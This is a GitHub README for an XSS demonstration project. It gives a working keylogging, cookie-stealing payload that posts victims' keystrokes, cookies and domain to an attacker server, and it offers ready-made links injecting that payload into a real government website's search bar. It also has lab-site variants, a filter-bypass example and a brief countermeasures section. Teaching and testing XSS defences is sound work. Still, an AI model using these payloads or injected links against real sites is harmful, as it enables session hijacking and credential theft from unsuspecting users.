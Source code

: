 # TTC-Connect XSS
This is a demo project designed to demonstrate how cross-site scripting works and how it can be used to exploit vulnerabilities in websites. 


## Description
Our demo environment will consist of a specially crafted malicious code which performs the following:
* Capture the session domain of the victim
* Capture the session cookie of the victim
* Capture the key strokes of the victim
* Sends the captured information to our attacker server and save it to a file

This script will be used to perform a:
* [Reflected XSS Attack](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Stored XSS Attack](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [DOM-based XSS Attack](https://www.owasp.org/index.php/DOM_Based_XSS)

### Requirements
The following components needs to be installed to replicate the demo
* [Node JS](https://nodejs.org/en/) - Install NoeJs to run and host our attacker server
* A browser with XSS Filter disabled - IE was used in our demonstration
* A browser with XSS Filter enabled - Chrome was used in our demonstration



### Locate a exploitable website 
* We used [TT-Connect](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ38Aw0sDYyCPA1dDUy9jd29DIAKIoEKDHAARwNC-r3ACvDoB1pgVOTr7JuuH1WQWJKhm5mXlq8fUVKSnJ-Xl5pcoh-uH4VmR5C7G9AOV1NDD-8wY6AhUAV47CjIjajySQv2BACEOlbd/dl5/d5/L2dBISEvZ0FBIS9nQSEh/) Website as our example.
* To determine whether a site is susceptible to a XSS attack, we perform the following tests:
  * HTML Test
    ```
    <h1> test </h1>
    ```
  * Plain Javascript Test
    ```
    <script< alert('test') </script>
    ```
  * HTML Attribute Test
    ```
    <svg onload=alert(1)>
    ```
    
  * HTML Attribute Javascript Test
    ```
    <img src="http://inexist.ent" onerror="javascript:alert(1)"/>
    ```
  Enter the above codes in the [TT-Connect](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ38Aw0sDYyCPA1dDUy9jd29DIAKIoEKDHAARwNC-r3ACvDoB1pgVOTr7JuuH1WQWJKhm5mXlq8fUVKSnJ-Xl5pcoh-uH4VmR5C7G9AOV1NDD-8wY6AhUAV47CjIjajySQv2BACEOlbd/dl5/d5/L2dBISEvZ0FBIS9nQSEh/) Website as our example. search bar to see the result. 
  
  You should get the following results:
  * On a XSS Filtered enabled browser, only HTML test will pass. **[View Video Demo](https://drive.google.com/file/d/1JsBYC4222L_-DFo0I2-mDrtOHYPwihle/view?usp=sharing)**
  * On a XSS Filtered disabled browser, all test except Plain Javascript test will pass. **[View Video Demo](https://drive.google.com/file/d/10z-Yqr4nNumjXETJ8X7t249CsBuKsmYT/view?usp=sharing)**
 
### Design your malicious script
We have designed the following script to attack our target websites
```
 <!-- Injected script that logs user's key press, domain and -->
    <img hidden src='x' onerror="document.onkeypress=function(e){ 
        var xhr = new XMLHttpRequest(); //Create new http request
        //Configure HTTP POST request to be send to attacker server
        xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); //Send keystroke as paramater
        //Allow CORS and use of JSON 
        xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); 
        //Send HTTP POST request with the defined body containing cookie and domain
        xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"
    />
```
Usable Minimized Version
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>
```

### Perform a Reflected XSS Attack - [View Video Demo](https://drive.google.com/file/d/1bnmG9OYbcV1Egnb53ilj0qY4ivPTyPVC/view?usp=sharing)
* Clone this project
  ```
  git clone https://github.com/HaifengMei/ttconnect-xss.git
  ```
* Go inside project directory
  ```
  cd ttconnect-xss
  ```
* Install necessary packages
  ```
  npm install
  ```
* Run application server
  ```
  node app.js
  ```
* Access on a  XSS Filter disabled browser the following link which has the attack script injected
[Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0)

* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Perform a Stored XSS Attack - [View Video Demo](https://drive.google.com/file/d/1PAJMY-AO7YvaJK1IcH_j9ex_FPYhEXMh/view?usp=sharing)
* Ensure the attack server is running
* Access the following
[Vulnerable Forum](https://xss-game.appspot.com/level2/frame)
* The website current contains no cookies, you may set the cookie to a value for demonstration purposes
  * Juse open console with F12 and type the following and press enter
    ```
    document.cookie = "username: Persius, password: 1234"
    ```
* Submit the following script as a comment
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>
```
* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Perform a DOM-based XSS Attack - [View Video Demo](https://drive.google.com/file/d/1svetI989YoEaJSnx0pikjfTN1kuN4z6Q/view?usp=sharing)
* Ensure the attack server is running
* The website current contains no cookies, you may set the cookie to a value for demonstration purposes
  * Juse open console with F12 and type the following and press enter
    ```
    document.cookie = "username: DOMinic, password: 4321"
    ```
* Access the following injected link
[Injected TT Connect Link](https://xss-game.appspot.com/level1/frame?query=%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E)

* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Counter Measures - [View Video Demo](https://drive.google.com/file/d/1HMb8bAWwBZwK1KFxKCdgIqj4igcu7vBp/view?usp=sharing)
* [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
  * Try [Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0) on a XSS-Filter enabled browser, it will get blocked
  
 * Implement [XSS Prevention Rules](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet#XSS_Prevention_Rules) by performing the following searched on [XSS-Proof Website](https://agriculture.gov.tt/):
 * Escaped HTML Test
   ```
   <h1> test </h1>
   ```
 * Escaped Plain Javascript Test
   ```
   <script< alert('test') </script>
   ```
 * Escaped HTML Attribute Test
   ```
   <svg onload=alert(1)>
   ```
 * Escaped HTML Attribute Javascript Test
   ```
   <img src="http://inexist.ent" onerror="javascript:alert(1)"/>
   ```
### XSS Filter Bypass - [View Video Demo](https://drive.google.com/file/d/19UjoPuIhOKG22aEnhqqd9Xf9lj-iLVRR/view?usp=sharing)
Although X-XSS-Protection designed into browser works for common attacks, there exits [bypasses](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) that allow hackers to execute their malicious scripts.

A Japanese hacker posted a [github repo](https://github.com/masatokinugawa/filterbypass/wiki/Browser%27s-XSS-Filter-Bypass-Cheat-Sheet#ieedge%E3%81%AExss%E3%83%95%E3%82%A3%E3%83%AB%E3%82%BF%E3%83%BC) that contains some working bypass for the latest XSS filters in Chrome, IE11/Edge and Safari

Following example shows that rearranging the script and encoding some characters will bypass the filter in Chrome
```
<svg o<script>nload=alert(1)>
↓
<svg onload=alert(1)>
```
Try the link and see for yourself

https://vulnerabledoma.in/bypass/text?type=6&q=%3Csvg%20o%3Cscript%3Enload=alert(1)%3E
